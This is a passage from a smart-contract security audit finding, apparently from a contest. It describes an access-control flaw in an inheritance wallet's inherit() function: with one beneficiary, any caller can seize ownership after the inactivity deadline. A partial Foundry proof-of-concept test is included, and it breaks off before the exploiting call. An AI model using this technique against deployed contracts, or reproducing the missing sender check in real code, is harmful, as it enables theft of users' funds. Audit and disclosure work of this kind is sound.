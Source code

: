 ## Vulnerability Details

In [InheritanceManager.sol#L217](https://github.com/CodeHawks-Contests/2025-03-inheritable-smart-contract-wallet/blob/main/src/InheritanceManager.sol#L217), the `inherit` function is implemented as follows:

```Solidity
function inherit() external {
    if (block.timestamp < getDeadline()) {
        revert InactivityPeriodNotLongEnough();
    }
    if (beneficiaries.length == 1) {
        owner = msg.sender;
        _setDeadline();
    } else if (beneficiaries.length > 1) {
        isInherited = true;
    } else {
        revert InvalidBeneficiaries();
    }
}
```

When `beneficiaries.length == 1`, the function does not check that `msg.sender` is the only beneficiary in the list. This allows any attacker to front-run the intended beneficiary and claim ownership of the contract.

## PoC

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {InheritanceManager} from "../src/InheritanceManager.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";

contract InheritanceManagerTest is Test {
    InheritanceManager im;
    ERC20Mock usdc;
    ERC20Mock weth;

    address owner = makeAddr("owner");
    address user1 = makeAddr("user1");

    function setUp() public {
        vm.prank(owner);
        im = new InheritanceManager();
        usdc = new ERC20Mock();
        weth = new ERC20Mock();
    }

    function test_invalid_beneficiary() public {
        address user2 = makeAddr("user2");
        vm.startPrank(owner);
        // Only one beneficiary is set
        im.addBeneficiary(user1);
        vm.stopPrank();

        vm.warp(1);
        vm.deal(address(im), 9e18);
        vm.warp(1 + 90 days);

        // After 90 days, user2 (who is not the beneficiary or the original owner) can inherit the contract
```